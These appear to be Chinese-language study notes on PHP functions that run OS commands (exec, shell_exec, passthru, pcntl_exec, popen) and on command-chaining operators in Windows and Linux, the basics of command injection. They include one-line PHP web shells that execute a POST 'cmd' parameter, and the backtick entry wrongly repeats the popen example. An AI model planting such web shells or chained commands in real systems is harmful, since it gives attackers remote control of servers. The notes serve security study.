 * exec（）
  * 将字符串作为OS命令执行，需要输出执行结果，且它只会输出最后一行的内容。
  * `&lt;?php echo exec($_POST[&#34;cmd&#34;]);?&gt;`

* shell_exec（）
  * 将字符串作为OS命令执行，需要输出执行结果，且输出全部的内容
  * `&lt;?php echo shell_exec($_POST[&#34;cmd&#34;]); ?&gt;`

* passthru（）
  * 将字符串作为OS命令执行，不需要输出执行结果，且输出全部的内容

* pcntl_exec（）
  * `&lt;?php pcntl_exec(&#34;/bin/bash&#34;,array($_POST[&#34;cmd&#34;])); ?&gt;`

* popen（）、proc_open（）
  * 该函数也可以将字符串当作OS命令来执行，但是该函数返回的是文件指针而非命令执行结果。该函数有两个参数
  * `&lt;?php $handle = popen(&#34;/bin/ls&#34;,&#34;r&#34;);?&gt;`

* 反引号
  * `&lt;?php $handle = popen(&#34;/bin/ls&#34;,&#34;r&#34;);?&gt;`


## 命令拼接符号
* Windows
```
&amp;	A&amp;B	无论A是false还是true，B都执行，即互不影响
```
```
&amp;&amp;	A&amp;&amp;B	具有短路效果，A是false，B就不执行，有短路效果
```
```
|	A|B	表示A命令语句的输出，作为B命令语句的输入执行。当A为false的时候将不会执行
```
```
||	A||B	表示A命令语句执行失败，然后才执行B命令语句
```
```
cmd1 | cmd2	//无论cmd1是否执行成功，cmd2一定执行
cmd1 ; cmd2	//无论cmd1是否执行成功，cmd2一定执行
cmd1 &amp; cmd2	//无论cmd1是否执行成功，cmd2一定执行
cmd1 || cmd2	//仅在cmd1执行失败时，cmd2被执行
cmd1 &amp;&amp; cmd2	//尽仅在cmd1执行成功时，cmd2被执行
```

* Linux

```
&amp;       命令后面跟上一个空格和 ‘&amp;’，可执行多个语句，直到kill -s
```
```
;      可以进行多条命令的无关联执行，每条执行结果互不影响
```
```
&amp;&amp;  ||     与Windows中相同
```
```
()      如果想执行几个命令，则需要用命令分隔符分号隔开每个命令，并使用圆括号()把所有命令组合起来
```
